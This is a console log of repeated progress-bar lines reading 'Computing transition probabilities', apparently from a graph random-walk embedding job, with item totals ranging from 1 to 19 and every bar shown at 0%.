Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/19 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/17 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/18 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/16 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/6 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/15 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/5 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/7 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/8 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/4 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/12 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/3 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/13 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/9 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/2 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/14 [00:00<?, ?it/s]

Computing transition probabilities:   0%|          | 0/1 [00:00<?, ?it/s]

